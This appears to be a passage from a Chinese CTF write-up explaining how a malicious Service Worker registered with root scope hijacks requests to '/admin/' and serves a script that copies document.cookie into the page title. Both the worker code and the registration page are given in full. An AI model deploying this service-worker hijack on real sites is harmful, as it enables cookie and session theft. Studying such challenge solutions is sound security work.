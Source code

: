 第二问一开始觉得不可思议，后来想到似乎有些 web app 支持离线运行，好像是 Service Worker，然后可以搓出这样一个 worker：

```javascript
const CACHE_NAME = 'v2_cache';
const CACHE_FILES = [
];

self.addEventListener('install', function (event) {
    event.waitUntil(
        // Opening cache
        caches.open(CACHE_NAME)
            .then(function (cache) {
                console.log('Opened cache');
                // Adding cache files
                return cache.addAll(CACHE_FILES);
            })
    );
});

self.addEventListener('fetch', function (event) {
    event.respondWith(
        caches.match(event.request).then(function(response) {
            // Check if request URL is "/admin/"
            var url = new URL(event.request.url);
            if (url.pathname === '/admin/') {
                return new Response(
                    '<script>setTimeout(() => {document.title=document.cookie}, 1000) </script>',
                    { headers: { 'Content-Type': 'text/html'}}
                );
            }
            if (response) return response;
            // Else fetch from network
            return fetch(event.request);
        })
    );
});
```

因为我们只能放次级目录，所以 HTML 里面需要显式写 `scope: "/"`：

```html
<!DOCTYPE html>
<html>
<head><link rel="icon" href="data:,"></head>
<body>
<script>
// check if Service Worker is supported
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/swjs2/', { scope: "/" }).then(function(registration) {
    console.log('Service Worker registered with scope:', registration.scope);
  }).catch(function(err) {
    console.log('Service Worker registration failed:', err);
  });
}
</script>
</body>
</html>
```

